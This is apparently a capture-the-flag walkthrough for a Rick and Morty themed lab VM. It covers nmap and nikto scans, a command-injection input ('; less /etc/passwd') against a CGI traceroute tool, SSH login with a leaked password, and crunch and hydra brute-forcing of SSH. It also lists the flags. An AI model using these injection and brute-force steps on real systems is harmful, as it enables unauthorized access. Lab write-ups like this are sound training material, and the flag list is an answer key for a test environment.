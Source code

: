 Using nmap on the ip using SYN and version scan.

                └─$ sudo nmap -sV -sS -p- 192.168.42.92
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 15:28 IST
                Nmap scan report for 192.168.42.92
                Host is up (0.00050s latency).
                Not shown: 65528 closed tcp ports (reset)
                PORT      STATE SERVICE VERSION
                21/tcp    open  ftp     vsftpd 3.0.3
                22/tcp    open  ssh?
                80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
                9090/tcp  open  http    Cockpit web service 161 or earlier
                13337/tcp open  unknown
                22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
                60000/tcp open  unknown
                3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port22-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(NULL
                SF:,42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4
                SF:\.0-31-generic\x20x86_64\)\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port13337-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port60000-TCP:V=7.93%I=7%D=5/17%Time=6464A55E%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.
                SF:\.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20re
                SF:verse\x20shell\.\.\.\n#\x20");
                MAC Address: 08:00:27:B9:12:62 (Oracle VirtualBox virtual NIC)
                Device type: general purpose
                Running: Linux 3.X|4.X
                OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
                OS details: Linux 3.2 - 4.9
                Network Distance: 1 hop
                Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

                OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 43.42 seconds


Flag from fingerprint:
1.FLAG:{TheyFoundMyBackDoorMorty}


http interface flag 9090 flag:
2.FLAG {THERE IS NO ZEUS, IN YOUR FACE!}

ftp flag Users flag:
3.FLAG{Whoa this is unexpected}

Busting the directories in the Morty's website using nikto
result:

      $ nikto -host http://192.168.42.8/ 
      - Nikto v2.5.0
      ---------------------------------------------------------------------------
      + Target IP:          192.168.42.8
      + Target Hostname:    192.168.42.8
      + Target Port:        80
      + Start Time:         2023-05-18 08:35:41 (GMT5.5)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.27 (Fedora)
      + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
      + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
      + Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
      + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE .
      + /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
      + /passwords/: Directory indexing found.
      + /passwords/: This might be interesting.
      + /icons/: Directory indexing found.
      + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
      + 8908 requests: 0 error(s) and 9 item(s) reported on remote host
      + End Time:           2023-05-18 08:35:48 (GMT5.5) (7 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested

Opening the /passwords/ dir in the ip has a file FLAG.txt 
4.FLAG{Yeah d- just don't do it.} 

The directory also has a html file called passwords.html where it has a password commented on its html code
password: winter

Using robots.txt in the ip results:

      They're Robots Morty! It's ok to shoot them! They're just Robots!

      /cgi-bin/root_shell.cgi
      /cgi-bin/tracertool.cgi
      /cgi-bin/*
/cgi-bin/tracertool.cgi contains a command excecutable shell where we use the command:
      
      ; less /etc/passwd
to view the contents of passwd file which has the details of the usernames

Output:

      root:x:0:0:root:/root:/bin/bash
      bin:x:1:1:bin:/bin:/sbin/nologin
      daemon:x:2:2:daemon:/sbin:/sbin/nologin
      adm:x:3:4:adm:/var/adm:/sbin/nologin
      lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
      sync:x:5:0:sync:/sbin:/bin/sync
      shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
      halt:x:7:0:halt:/sbin:/sbin/halt
      mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
      operator:x:11:0:operator:/root:/sbin/nologin
      games:x:12:100:games:/usr/games:/sbin/nologin
      ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
      nobody:x:99:99:Nobody:/:/sbin/nologin
      systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
      systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
      systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
      systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
      dbus:x:81:81:System message bus:/:/sbin/nologin
      polkitd:x:997:996:User for polkitd:/:/sbin/nologin
      sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
      rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
      abrt:x:173:173::/etc/abrt:/sbin/nologin
      cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
      rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
      chrony:x:995:993::/var/lib/chrony:/sbin/nologin
      tcpdump:x:72:72::/:/sbin/nologin
      RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
      Morty:x:1001:1001::/home/Morty:/bin/bash
      Summer:x:1002:1002::/home/Summer:/bin/bash
      apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
We can try the three usernames and the password winter with ssh
command:
  
      $ssh Summer@192.168.42.8 -p 22222

uname: Summer   pass: winter   satisfied!
Inside the Summer dir we have a FLAG.txt 

5.FLAG{Get off the high road Summer!} 



reverse shell flag:
6.FLAG{Flip the pickle Morty!} - 10 Points


pass:Meeseek
zip:
7.FLAG: {131333}


safe flag:
8.FLAG{And Awwwaaaaayyyy we Go!} - 20 Points


safe hint:
Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.  ---> Flesh Curtains

crunch the password list
crunch 7 7 ,%Flesh -O >>yourfile.txt
crunch 10 10 ,%Curtains -O>>Yourfile.txt


bruteforce using hydra
$ hydra -l RickSanchez -P yourfile.txt 192.168.42.8 ssh  -s  22222



flag root access:
9.FLAG: {Ionic Defibrillator} - 30 points
